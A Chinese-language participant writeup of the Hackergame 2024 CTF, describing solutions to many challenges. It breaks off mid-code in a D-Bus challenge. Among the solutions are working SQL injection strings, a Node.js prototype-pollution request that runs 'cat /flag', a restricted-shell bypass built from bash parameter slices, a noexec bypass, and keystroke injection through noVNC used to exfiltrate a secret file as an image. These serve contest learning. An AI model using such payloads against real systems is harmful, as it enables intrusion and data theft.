





# 莉特雅 literal writeup

第一次打 hackergame，很紧张，感觉自己学的有点杂居然都能用上一点。
以前看过几个题，又是绕过又是栈溢出又是 hash 的我都不会啊😭，就走了。
可能是现在有点能力了（逃），有些题还是能想出来的，高强度做题 7 天挺有意思，特别是《无法获得的秘密》，我直接手写 optar，感觉像是参加了黑客马拉松（逃）。

## 签到题

没什么好说的：

```
${题目网站}/?pass=true
```

过！

## 喜欢做签到的 CTFer 你们好呀

建议改为：《我们从未知道中国科学技术大学校内 CTF 战队有哪些》、《我们从未知道战队主页在哪》

找题找了十分钟，也不知道对不对，是不是 https://www.nebuu.la/ ?（哦抱歉，原来就在比赛主页下面啊，失敬失敬！）

找到一个：

index-5c589ff418560b46.js
```
atob(RkxBRz1mbGFne2FjdHVhbGx5X3RoZXJlc19hbm90aGVyX2ZsYWdfaGVyZV90cllfdG9fZjFuRF8xdF95MHVyc2VsZl9fX2pvaW5fdXNfdXN0Y19uZWJ1bGF9)
```

对应在网页里面敲 env 但是复制不出来的东西（大雾）。

啊这，还有一个就在下面。。。

## 猫咪问答（Hackergame 十周年纪念版）

### Q1: 在 Hackergame 2015 比赛开始前一天晚上开展的赛前讲座是在哪个教室举行的？（30 分）

你们 Hackergame 2015 资料都删干净了是吧。

（此处省略两个小时的搜索 + archive.org 搜索）

google `中国科学技术大学第二届信息安全大赛 +动员`；
注意到 https://lug.ustc.edu.cn/wiki/lug/events/hackergame/ ；

运用一点小小的数学知识，得出 2015 年是第二届;
https://lug.ustc.edu.cn/wiki/sec/contest.html ；
教室 `3A204`

答：`3A204`

### Q2: 众所周知，Hackergame 共约 25 道题目。近五年（不含今年）举办的 Hackergame 中，题目数量最接近这个数字的那一届比赛里有多少人注册参加？（30 分）

比赛主页底下给的连接一个个打开，然后自己找往年题解数有多少道题：

```
2023 29 题 超过 4100 人
2022 33 题 超过 4500 人
2021 31 题 4023 人注册
2020 31 题 3733 人注册
2019 28 题 2682 人注册 *
```

得出 2019 年 28 题最接近，资料给出是明确的 2682 人。

参考资料：
- https://github.com/ustclug/hackergame2019-writeups
- https://lug.ustc.edu.cn/news/2019/12/hackergame-2019/

答：`2682`

### Q3: Hackergame 2018 让哪个热门检索词成为了科大图书馆当月热搜第一？（20 分）

`2018 图书馆热搜` 随便可搜到

https://github.com/ustclug/hackergame2018-writeups/blob/master/misc/others.md

答：`程序员的自我修养`

### Q4: 在今年的 USENIX Security 学术会议上中国科学技术大学发表了一篇关于电子邮件伪造攻击的论文，在论文中作者提出了 6 种攻击方法，并在多少个电子邮件服务提供商及客户端的组合上进行了实验？（10 分）

会议链接： https://www.usenix.org/conference/usenixsecurity24/technical-sessions

文章链接： https://2459d6dc103cb5933875-c0245c5c937c5dedcca3f1764ecc9b2f.ssl.cf2.rackcdn.com/sec24/sec24_full_proceedings.pdf

可以注意到这么一段话：

> resulting in 336 combinations

答：`336`

### Q5: 10 月 18 日 Greg Kroah-Hartman 向 Linux 邮件列表提交的一个 patch 把大量开发者从 MAINTAINERS 文件中移除。这个 patch 被合并进 Linux mainline 的 commit id 是多少？（5 分）

前些天群里跟踪这个，直接搜群消息就好了（逃）

https://github.com/torvalds/linux/commit/6e90b675cf942e50c70e8394dfb5862975c3b3b2

注意到题目要求前 6 位（所以 commit title 里面那个 7 位的要删一位才行）

答：`6e90b6`

### Q6: 大语言模型会把输入分解为一个一个的 token 后继续计算，请问这个网页的 HTML 源代码会被 Meta 的 Llama 3 70B 模型的 tokenizer 分解为多少个 token？（5 分）

禁用 js（不重要），进入网络选项卡，右击，复制响应；
打开新标签页 https://lunary.ai/llama3-tokenizer ；
粘贴进去；
一点点试（减少）；

答：`1833`

## 打不开的盒

stl 文件 🤔，Blender 启动！


导入文件：



用 `bool modifier` 切掉顶部，然后在 3D 视口就能隐约看到 flag。



> 好好好，flag 里面明示用 C4D 是吧，呜呜呜。<br>
> 还有你这个盒子怎么这么大！

## 每日论文太多了！

> 好好好，你们已经优秀到在论文里藏 flag 是吧。

随便找个 pdf inspector（搜索：`pdf inspector online`）比如这里用了 [pdfcrowd](https://pdfcrowd.com/inspect-pdf/)，然后导出里面的图像，最后一个黑底图片就是 flag。



右击，新标签页打开：


手敲出来

```
flag{h4PpY_hAck1ng_3veRyd4y}
```

> 以前学 Media Stream Extension 的时候经常找和用 MP4 inspector，下意识就找 pdf inspector 了

## 比大小王

state 状态外露，那么试试油猴脚本（已咕） + `dispatchEvent`

```js
var f = function(i){
  let [a, b] = state.values[i]
  val = a > b ? 'd' : 'a'
  document.dispatchEvent(new KeyboardEvent("keydown", { key: val}))
  document.dispatchEvent(new KeyboardEvent("keyup", { key: val}))
  setTimeout(f, 200, i+1)
}

setTimeout(f, 0, 0)
```

但是要么会做错，要么慢，那么这个题不能做，得绕掉。

```js
submit(state.values.map((el)=>el[0]>el[1]?'>':'<'))
```

上面那一串扔到 f12 控制台，记得开始答题后再运行，不然会时空穿越。

## 旅行照片

### Q1 科里科气

用高德地图搜 `科创驿站科大站` 得出结果 `科里科气科创驿站(科大站)`，距离 `东校区西门` 最近。

### Q2 ACG音乐会

[Bilibili: 中国科大2024ACG音乐会单品】【口琴五重奏】风之丘/魔女宅急便印象曲](https://www.bilibili.com/video/BV1tM4m1r7qv)

2024年5月19日晚19:00 东区大礼堂

> 羡慕了

### Q3 公园

垃圾桶上写的 `六安__` 后面看不清大概是环保（搜了半天六安国科。。。）。
然后注意路上的彩虹线，估计是 `六安市中央公园`（去抖音搜了下相关视频，主要是看有没有彩虹线）。

### Q4 景观

找了半天觉得是 `坛子岭` 观景点。
主要是在 bing 图片搜三峡喷泉（抖音识别的）的时候，看到一个结果和照片里棕色圆形建筑很像，试了一下成了。


高铁不会，一开始去广清线看的，后来觉得应该是怀密线（好像只有**怀密号**是<span style="color: #f65275">猛男粉</span>），先后看了北京北，朝阳，怀柔北和密云，实在是找不到相似的地方（眼瞎）。

## 不宽的宽字符

试了两下 `\0`，要么我菜，要么不行。

我是 docker 受害者！一直收不到内容：我 patch 了题目代码，加上了 dump 相关变量和缓冲区的代码，然后看到输入一直是全零，心态爆炸💥，而且终端输入中文会乱码，直到 `docker run --rm -i name < input` （没有 `-t`）的时候发现能正常输入了。

思路是把两个 ascii 拼成一个 Unicode 字符，再 UTF-8 编码输进去就行了：

```python
>>> b'Z:\\theflag\x00\x10'.decode('utf16')
'㩚瑜敨汦条က'
```

最后那个字符的作用是塞一个空字符，后面内容无所谓

我，还是懂一点 Unicode 的，什么码位，代理对，字形簇，甚至双向，emoji 序列（逃）

## PowerfulShell

下面是笔记

```bash
# bootstrap
__=~

# ls /player
${__:2:1}${__:7:1} ${__::1}

# ___=`ls /`
___=`${__:2:1}${__:7:1} ${__::1}`

# ____=`ls /bin`
____=`${__:2:1}${__:7:1} ${__::1}${___::3}`

${___:12} # -> etc

${___:15:1}${__:3:1}${___:14:1} # -> cat
```

思路是**活字印刷术**，以 `~` 扩展为突破口，然后用 `${parameter:offset:length}` 做活字印刷。

你把题目给的脚本改一下，然后用 hashcat 他们做的 `maskprocessor` 跑一下一下就能拿到可用字符集：

```bash
$ mp ?a | bash patched.sh
```

我构造的输入：

```bash
# 活字印刷：启动！
__=~
# __='/player'

# ___=`ls /`
___=`${__:2:1}${__:7:1} ${__::1}`

# ____=`ls /bin` 用来拿 cat（懒得找 cat 的偏移了，于是活字印刷算了）
____=`${__:2:1}${__:7:1} ${__::1}${___::3}`

# cat /flag
${___:15:1}${__:3:1}${___:14:1} ${__::1}${___:17:4}
```

## Node.js is Web Scale

盲猜 `__prototype__` 但是实际上是 `__proto__`。
原型污染：

1. 设置 `__proto__.nonexists`
2. 执行 `noexists`

首先看了下 /flag 权限，再看了下自己，突然想到大家都能阅读的来着 (`r--r--r--`)，那就简单了：

```http
POST http://localhost:3000/set
Content-Type: application/json

{"key": "__proto__.exploit","value": "cat /flag"}

###

GET http://localhost:3000/execute?cmd=exploit
```

利用原型机制：`cmds` 不存在的属性就会访问原型 `__proto__`；第一步利用 `/set` 接口污染之。

（当然搭建环境加调试代码试了下）

## PaoluGPT

### 千里挑一

年轻人的第一次成功的白盒 SQL 注入

自己搭环境加调试试出来的（外加查 sql 注入教程（悲，还是太菜了））：

```
?conversation_id=' or 1=1 and contents like '%flag%' --
```

F12 或者右键查看源代码，flag 在几万行下面。

### 窥探未知

那我属于是自己吓自己了，两个题一个思路

```
?conversation_id=' or 1=1 and shown = false --
```

flag 位置同上

## 惜字如金 3.0

第一问就是签到题，需要补全的地方都知道。

然而后面不会，我甚至天真的以为 47bit 自由度的 `B.???.B` 常量能暴力出来，结果就是两个 py 脚本（学会了进程池和线程池），一个 c++ 程序（学了一点 tbb）浪费了三天。

但是这个题很有教育意义，至少学了进程池和 tbb（逃

## 优雅的不等式

不会数学，不会数学（逃），请跳过这一节！拜托了！

注意力惊人！

> [相信注意力涣散的你，也想获得这样神奇又集中的注意力吧！](https://www.bilibili.com/video/BV13y411q7GZ?t=98.9)

现在知道该注意⚠️哪里了吧！https://www.bilibili.com/video/BV13y411q7GZ?t=577.1 ；

感谢[大佬的馈赠](https://math.stackexchange.com/a/1959)：

```math
\int_0^1 \frac{x^5(1-x)^6(197+462x^2)}{530(1+x^2)}\:dx= \pi -\frac{333}{106}
```

把 $\frac{333}{106}$ 移到左边，然后题目说减去多少，就在后面减去多少

好吧原来一个圆方程就行啊。

## 无法获得的秘密

> 谢谢，有种参加了黑客马拉松的感觉，手写了 `optar`，很紧张。
> 成功通过 noVNC 偷了 512 KiB 高熵信息这件事我能吹一年。

收集信息：

1. 一上来以为是 15 分钟内极限提权，直到 `cat` 了一下 `/secret` 发现是可读的 🤔。。。
2. 发现里面有编译器 gcc（啊？）、python3、readelf 等。
3. `/secret` 熵很大，我得忍一下，压缩意义不大。用 `zstd --ultra --22` 试了一下发现 **尺寸反而增大了**，那么估计就是从 `/dev/urandom` 取的熵源，不要想着~~压缩取巧然后手敲出来~~什么的。
4. 后面才发现可写目录上了 `noexec`，那你给我 gcc 是干什么的🤔
5. `/secret` 大小为 `512 KiB` 属于是刚好不大不小的那种。
6. 没有 `libpng`（意味深）
7. 有 firefox，可以用来显示图片。
8. 基本没什么其他库的开发用工具：头文件，pkgconfig 什么的

那么问题就明了了：15 分钟内偷 `512 KiB` 高熵数据出来！

- 首先 `xxd -p /secret | wc -l` 算出有八千多行，手敲是不可能的（就算是十几行也不可能啊喂！）。
- 其次以 GitHub 上找到的 [ChromaOR](https://github.com/w-henderson/ChromaQR) `8859 bytes` 的编码也需要 `60` 张图片。
- 二维码就算了，几百张起步。
- 传说中 GitHub 北极仓库用的 [piql/boxing](https://github.com/piql/boxing) 里面只有解码器，而且原作者说[编码器和方案是商业软件，没法开源](https://github.com/piql/boxing/issues/2)。
- [optar](http://ronja.twibright.com/optar/) 行不行呢？不行，我想办法把源码发过去编译，结果依赖 libpng，我下载了 libpng 源码后发现这个库我应该**不可能在 15 分钟内发过去**（至于我怎么发过去的在后面有说明）。而且 optar 有个更恶心的问题是他输出 `.pgm` 文件，还依赖 ImageMagick 把他往 PostScript 转（不是？那你依赖 libpng 干嘛？哦，解码是吧），这两个东西都不是短时间能发过去的。

前面比大小（口算题！）的题目其中一个失败解法是 `dispatchEvent(new KeyboardEvent('keypress', {key: ''}))`，写过的代码可以用在这里，用这个方法，写个油猴脚本，高速 5ms / keypress “手敲“ `base64` 过去（有试过 `basenc --z85` 但是这个太难伺候）。

> 成熟的电脑会自己打字！🤓👆

针对 noexec 的问题使用 [nnsee/fileless-elf-exec](`https://github.com/nnsee/fileless-elf-exec`) 解决。

🤔 我隐约感觉正解应该是用 python 脚本写，大小也小，好发过去，我用 C 写还绕 `noexec`，鉴定为调 `libpng` 调的；
当然鉴于 `libpng` 的大小，而且我短时间内也没法裁剪，所以用 [stb_image_write.h](https://github.com/nothings/stb/blob/master/stb_image_write.h) 解决（第一次调 stb 好紧张），同时最好把 stb 里面的注释和其他没有用到的代码删掉，减少传输尺寸和时间。

接下来问题就是怎么偷出来，抛开提权然后攻击 websocket（主要是我不会）那么就是把二进制编码成图片了。

所以你需要做的是手写一个 optar 出来！

### 编码方案

我采用一拍脑袋想到的将一个字节拆开两个 4bit 编码成两个像素 `(r, g, b, a)` 其中 a 不重要，反正恒为 `0xff`；

4bit 有 16 种可能，偷终端 16 位颜色就行：

```
byte stream
[hhhh llll] <-- count
 |    |
 |    |       pixel stream
 |    +-----> pixel1(r, g, b, 0xff) <-- count * 4 channel * 1 byte * 2 component
 +----------> pixel2(r, g, b, 0xff)
```

调色板：

```c
uint8_t color_tbl[][4] = {
    {0,    0,    0,    0xff}, // 0
    {0x7f, 0,    0,    0xff},
    {0,    0x7f, 0,    0xff},
    {0,    0,    0x7f, 0xff},
    {0,    0x7f, 0x7f, 0xff},
    {0x7f, 0,    0x7f, 0xff},
    {0x7f, 0x7f, 0,    0xff},
    {0x55, 0x55, 0x55, 0xff}, // 1/3
// 什么 16bit 彩色
    {0xaa, 0xaa, 0xaa, 0xff}, // 2/3
    {0xff, 0,    0,    0xff},
    {0,    0xff, 0,    0xff},
    {0,    0,    0xff, 0xff},
    {0,    0xff, 0xff, 0xff},
    {0xff, 0,    0xff, 0xff},
    {0xff, 0xff, 0,    0xff},
    {0xff, 0xff, 0xff, 0xff}, // 3/3
};
```



其中 `0` , `1/3` , `2/3` , `3/3` 是发现有两个黑色，编码重合了，用脚趾头都能想到需要找个办法区分一下，这里我拍脑袋使用灰阶。

拍脑袋准备一个 `1024 x 1024` 的图片，能编码 `524288 bytes` 的数据，`512 KiB` **刚好是这个数**。

编码器：

```c
// src -> 1byte
// dst -> 2 pixel = 8 bytes
/**
 * 读取数据，写帧缓冲
 * @param[out] dst 帧缓冲
 * @param[in]  src 要编码字节
 */
void
encode_pixels_from_byte(uint8_t *dst, uint8_t *src)
{
    uint8_t val = *src;
    uint8_t low = val & 0xf; // 这里多写一个 f，我懵了，adsan 怒了，我更懵了（逃
    uint8_t high = (val >> 4) & 0xf;
    const size_t sz_color = 4;
    // 低位优先，记住，后面要考（不是）
    memcpy(dst, &color_tbl[low], sz_color);
    dst += sz_color;
    memcpy(dst, &color_tbl[high], sz_color);
}
```

解码用 python 写了（至于编码器为什么不用 python 写，问就是调 `libpng` 调的）。
思路就是用像素对调色板的每个值做差再平方（aka. 最小二乘法），取值最低的一个，作为解码的数据。

```python
def decode_from_pixel(pixel):
    r,g,b = pixel
    # 下面就是传说中的最小二乘法
    def fdiff(tb):
        rr, rg, rb = tb
        return (r - rr)**2 + (g - rg)**2 + (b - rb)**2
    diffs = list(map(fdiff, tbl))
    # min_index 来源 https://stackoverflow.com/a/2474238
    min_index, min_value = min(enumerate(diffs), key=operator.itemgetter(1))
    return min_index # 这就是编码的值了

# 后面将4bit数字对还原为比特流，再写文件
```

本地 `dd if=/dev/urandom of=test bs=1024 count=512` 一个 512 KiB 的文件跑一下，能跑通，就可以了。


### 输入

对着 noVNC 疯狂 `dispatchEvent(new KeyboardEvent(...))`

```js
var targetel = null
// 发送键盘事件的
function keyboard_input(char){
    targetel.dispatchEvent(new KeyboardEvent('keydown', {key: char}))
    targetel.dispatchEvent(new KeyboardEvent('keyup', {key: char}))
}

// 第一次写这里把解压的 zstd 给忘了，还以为电脑自己打字有漏键
const payload = `cat | base64 -d | zstd -d | cpio -i
这里粘贴压缩包内容
`

// 修改：后来和朋友讨论才知道可以用 heredoc，就不用手动打 Ctrl+D 了
const payload = `(base64 -d | zstd -d | cpio -i) <<EOF
这里粘贴压缩包内容
哦对了如果有问题，可能是你的载荷里面刚好有 EOF
EOF
`

let inject = GM_registerMenuCommand(
      "注入！",
      function () {
          // 先拿 iframe
          var theframe = document.querySelector('#novnc-iframe')
          // 去 iframe 拿元素
          targetel = theframe.contentDocument.querySelector('canvas')
          let len = payload.length
          function f(off) {
              if (off >= len) {
                  return
                  // 不知道要怎么玩，这段代码不能正常工作
                  // targetel.dispatchEvent(new KeyboardEvent('keydown', {key: 'Control', ctrlKey: true}))
                  // targetel.dispatchEvent(new KeyboardEvent('keydown', {key: 'd', ctrlKey: true}))
                  // targetel.dispatchEvent(new KeyboardEvent('keyup', {key: 'Control'}))
                  // targetel.dispatchEvent(new KeyboardEvent('keyup', {key: 'd'}))
                  return
              }
              keyboard_input(payload[off])
              setTimeout(f, 2, off+1)
          }
          setTimeout(f, 0, 0)
      },
      "辅助说明"
  )
```

保存油猴脚本，刷新网页，连接远端主机，打开终端，获得焦点，在外面右键上下文菜单，注入！

你已经是一台成熟的电脑了！要学会自己打代码 😂！

> Ctrl+D 组合键实在不知道怎么发过去，于是看到屏幕不动了记得立即按 Ctrl+D 并抓紧时间进行后续操作

如果编码器用 python 写的话，这一步会很快吧（悲）。
第一次尝试等了 800 多行（base64 载体），后面知道裁剪 `stb_write_image` 了（把注释、png 以外的函数都删了）只剩下 200 多行。

写了个 `Makefile`，用来生成压缩包以及油猴脚本需要的载体，压缩包里面有以下内容：
```
a.sh              - 节约时间用的
encoder.c         - 编码器
stb_image_write.h - stb 库
fee.py            - noexec bypass（问就是调 libpng 调的）
```

准备载体用：

```bash
find $(FILES) | cpio -i | zstd --ultra -20 | base64 > payload.b64
```

### 输出

一开始还觉得 1024 图片虽然好，但是这么小的屏幕，就算 noVNC 全屏也放不下我的图片😖，主要问题是我不可能在 15min 内在 GIMP 中拼一个图片出来。
后来试了下 xfce4 的显示设置，调大了屏幕大小，突然感觉这个方案是可行的，把 encoder 的 bug 修了一下打算碰碰运气。

> 插曲：如果你要打错误消息，一定要写好提示信息。我对着屏幕输出的
> ```
> die: unexpected read
> Abort.
> ```
> 我还以为 bypass 有问题，结果是我修 bug 的时候，把输入文件名改了，忘了改回去，导致 stat() 后失败，合着这个消息是我自己打印的，浪费我一晚上，还以为 noexec bypass 有问题。（我为什么要想不开在 `die()` 里面调 `abort()`）

摸索一下 `xrandr`，把这一切自动化：

```bash
# 自己害自己，自己的程序打印的错误消息自己不认识，还以为是程序太大了放不下，神他妈 unexpected read
# 最 6 的是，我在自己写的 die() 里面加了个 abort() 把自己骗了还以为 noexec 绕过失败了
gcc -flto -Os -Wl,--gc-sections encoder.c -o encoder
strip --strip-all --remove-section.comment --remove-section=.note encoder
# 执行程序
python3 fee.py encoder | python3
xrandr --output VNC-0 --mode 1920x1080
firefox result.png
```

争分夺秒：

1. 跑脚本
2. noVNC 全屏
3. 虚拟机内：浏览器全屏，工具栏提示信息该关的都关了，放大图像
4. 按 `PrintScreen` 键截屏
5. 退出来，选择提前打开的 GIMP，导入图片，选择工具，粗选，精选，图层::裁剪到选取，图像::画布适配图层，导出图片
6. 跑 `decode.py`
7. 选择提前打开的文件管理器，复制路径，上传文件
8. 拿 flag，你过关！🎉



### 总结

1. `local -> remote` ~~电脑自己打字~~油猴发送键盘事件，打字敲 base64 载荷过去。这一步的目的是：**发编码器过去**。
2. `local <- remote` 用图像输出，手写编解码，将`/secret` 编码成图片，截屏再解出来重建。

其中编码器的大小不能太大（比如 `libpng` 不能在有限的事件内发过去），图片不能太大（有限的时间内不好拼，或者没时间解几百张图片）。

我承认我是有赌的成分在里面，握把编码器写完的动力在于试一试，万一可以了呢？对吧。
我也知道 noVNC 如果有压缩的话，**最小二乘他顶得住吗？**
我一开始写的编码器有 bug，`& 0xf` 写成 `& 0xff` 了，导致编出来的都是乱码，我才开始 debug，检查我的编解码器是否能正常工作。直到 adsan 怒了，我还以为是不是 stb 有问题，然后看到编码器那块写的是 `0xff`,🤔 这一个字节不止 16 种可能吧。

> 其他内容：
>
> 用 Python 手写 png 图片格式的工作留给读者~~毕竟zlib都在里面~~（逃

🤔 真想知道 `piql/boxing` 是怎么编码的，里面带的测试用例那么糊的图像都能解出来，太强了，**这就是人类的智慧吗？**
一晚上手写 optar 是吧，还好只有 512 KiB，然后什么校验码我又不会，用一像素极限存信息，能解出来就不错了。
我猜测 [piql/boxing 里面自带测试用例](https://github.com/piql/boxing/tree/master/tests/testdata) 的图像格式，把他按照自己理解转成 png 然后看到胶卷的那一刻，非常激动！！！


上面还有污渍，是怎么解出来的呢🥺？用 boxing 工具解出来是 tar 包的片段。

## ZFS 文件恢复

> 从 zfs 硬盘镜像中找到 flag 这回事我能吹一年

一上来用 binwalk 扫为敬：

```
                                        zfs.img
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
DECIMAL                            HEXADECIMAL                        DESCRIPTION
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
4328960                            0x420E00                           Zlib compressed file, total size: 2554 bytes
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
```

但是并不是这里，虽然文件末尾有 `fl` 字样，flag 的正文在下一处👇。

`0x00421847` 位置看到 `78 9c` 没有（哦对了，zlib 的签名可以去搜或者看[这里](https://github.com/ReFirmLabs/binwalk/blob/90bca43d53c9077f586562d04dd6e9b06de8c989/src/signatures/zlib.rs#L10-L12)）？对就是这，但是 zlib 格式有所损坏。
就是因为 zlib 流有所损坏，导致 binwalk [不会报告结果](https://github.com/ReFirmLabs/binwalk/blob/90bca43d53c9077f586562d04dd6e9b06de8c989/src/signatures/zlib.rs#L28-L38)。

```
! infgen 3.3 output
!
zlib
!
last
fixed
literal 'ag{p1AInNNmmnn
match 3 4
literal 'tExxt_50easy~r1ght?~}
literal 10 0
match 258 1
match 258 1
match 258 1
match 258 1
bound 31
infgen warning: invalid deflate data -- invalid code
```

你杀了我吧（呜呜呜）。

> 我超，我昨天晚上用
> ```bash
> clear | xxd flag1.data | printf "自己写" | 以前自己写的调 zlib 的 demo
> ```
> 一点点猜，然后算了一个看起来和镜像数据最像的明文输出结果。
>
> 然后今天早上 `cat guess.flag` 粘贴进去答案正确了（当然前面记得加 fl）。

复盘一下就是：

1. 搜索 `flag` 能看到 `flag.txt` 和那个脚本。再用 binwalk 能找到一个 zlib 压缩的数据流，但是解压出来是很多字母。
2. 那就盲猜是 zlib 压缩，搜索 `78 9c` 仅剩第二个结果，但是无法正常解压，所以 binwalk 不出结果（也可能是我不会用）。
3. zlib 官网给过一个数据流 interpreter，可以看到上面的内容。

你得知道 `match 3 4` 是什么意思：指的是倒退 4 个位置，复制三个字符：

```
ag{p1AInNNmmnn
          ^^^
mmn
tExxt_50easy~r1ght?~}
```

解压出来就是

```
ag{p1AInNNmmnnmmntExxt_50easy~r1ght?~}
```

前面加上 `fl`，提交答案即可。

## 不太分布式的软总线

鉴定为签到题，放到这个位置是给大家提振信心的吧。
快说：**谢谢出题人！**

### Q1 What DBus Gonna Do? 	

怎么看代码怎么像调了接口就行：

```bash
#!/bin/bash
gdbus call --system \
    --dest "cn.edu.ustc.lug.hack.FlagService" \
    --object-path "/cn/edu/ustc/lug/hack/FlagService" \
    --method "cn.edu.ustc.lug.hack.FlagService.GetFlag1" \
    "Please give me flag1"
```

### Q2 If I Could Be A File Descriptor 

没学会 gdbus 怎么传递 fd，那么只有现场学 ~~dbus~~（我看了，差点似了） glib，直接看题目自带的 `getflag3.c` 学 glib 就行，至于怎么传递 fd_list 看 glib 文档，得知函数↓：

```c
// pkg-config --cflags --libs gio-2.0
// get flag2
#include <assert.h>
#include <stddef.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <gio/gio.h>
#include <glib.h>
int
main(void)
{
    // 准备 fd 给他
    int pipefd[2];
    pipe(pipefd);

    // 他要的数据
    const char *msg = "Please give me flag2\n";
    write(pipefd[1], msg, strlen(msg));

    // glib 的东西
    GError *error = NULL;
    GDBusConnection *conn;
    GVariant *result;

    // 获取 system bus
    conn = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);

    // 准备 fd_list
    GUnixFDList *fd_list = g_unix_fd_list_new();
    g_unix_fd_list_append(fd_list, pipefd[0], &error);

    // 调用接口
    result = g_dbus_connection_call_with_unix_fd_list_sync(
        conn,
        "cn.edu.ustc.lug.hack.FlagService",
        "/cn/edu/ustc/lug/hack/FlagService",
        "cn.edu.ustc.lug.hack.FlagService",
        "GetFlag2",
        g_variant_new("(h)", 0), // 输入 fd_list 的索引
        G_VARIANT_TYPE("(s)"),   // 输出类型
        G_DBUS_CALL_FLAGS_NO_AUTO_START,
        -1,
        fd_list, // 他要的 fd_list
        NULL,
        NULL,
        &error
    );

    const char *flag = NULL;
    if (!result)
    {
        g_printerr("error on call: %s\n", error->message);
        g_error_free(error);
    }
    // 获取结果
    g_variant_get(result, "(&s)", &flag);
    // 打印结果
